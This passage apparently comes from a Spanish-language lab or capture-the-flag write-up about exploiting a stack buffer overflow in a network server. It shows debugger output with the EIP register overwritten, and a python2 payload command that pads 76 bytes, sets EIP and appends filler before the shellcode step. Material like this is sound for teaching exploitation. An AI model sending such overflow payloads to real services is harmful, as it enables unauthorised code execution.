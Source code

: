 ```








──────────────────────────────────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────────────────────────────────
00:0000│ esp 0xffffd2e0 —▸ 0xffff000a ◂— 0
01:0004│     0xffffd2e4 —▸ 0xffffd2f4 ◂— 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB\n'
02:0008│     0xffffd2e8 ◂— 0x200
03:000c│     0xffffd2ec ◂— 0
04:0010│     0xffffd2f0 ◂— 0
05:0014│     0xffffd2f4 ◂— 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB\n'
... ↓        2 skipped
────────────────────────────────────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────────────────────────────────────
 ► 0 0x42424242 None
   1 0xffff000a None
──────────────────────────────────────────────────────────────────────────────
```

Vemos que estamos llenando de forma correcta el `EIP`, por lo que ahora vamos a llenar lo que haya despues del `EIP` para determinar alguna direccion de memoria en la que poder inyectarle un `shell_code`.

### Inyección de código en direccion de memoria

```shell
python2 -c 'print b"A"*76 + b"B"*4 + b"C"*300' | ./sender <IP> 7777
```

Info:

```
Conectado al servidor en 172.17.0.3:7777
Introduce los datos para enviar: Datos enviados: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC
```

Si nos vamos al `gdb` veremos lo siguiente:

```
Starting program: /home/alex/server 
warning: Error disabling address space randomization: Operation not permitted
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Servidor escuchando en el puerto 7777...
Conexión aceptada de 172.17.0.1:33584
Datos recibidos: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC

Procesado: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC

```